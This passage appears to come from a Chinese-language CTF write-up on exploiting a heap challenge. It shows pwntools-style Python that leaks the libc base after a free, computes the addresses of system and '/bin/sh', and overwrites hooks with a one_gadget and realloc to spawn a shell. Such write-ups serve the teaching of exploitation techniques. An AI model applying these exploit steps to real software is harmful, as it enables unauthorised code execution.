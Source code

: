 
进入malloc，jmp rax的时候会执行到system。


![upload successful](/images/pasted-105.png)


![upload successful](/images/pasted-106.png)

但是由于system的参数是/bin/sh，而要求输入的是整型，所以会出错，程序结束。此方法不通。所以还是需要用one_gadget。



解决方法2: 使用 realloc

```python
realloc = libc_base + libc.sym["realloc"]
...
py = ''
py+= 'a'*11 + p64(one_gadget) + p64(realloc) + '\n'  #原来填充的是0x13即19，现在填充11，realloc的地址上写上one_gadet。
...
add(6,0x68)
```



这里出现了错误，程序终止运行，不知道为什么。后来修改了add的块的个数，即前面add(0)和add(1)，没有add(2)，可以正常运行。

代码如下

```python
add(0,0x108)
add(1,0x108)

free(0)
show(0)
ru("Content: ")
libc_base = u64(rc(6).ljust(8,'\x00')) - 0x3c4b78
print "libc_base --->" + hex(libc_base) + '\n'

system = libc_base + libc.sym["system"]
binsh = libc_base + libc.search('/bin/sh').next()

print "system --->" + hex(system) + '\n'
print "binsh --->" + hex(binsh) + '\n'

#------one_gadget:0x45226 0x4527a 0xf0364 0xf1207------------

```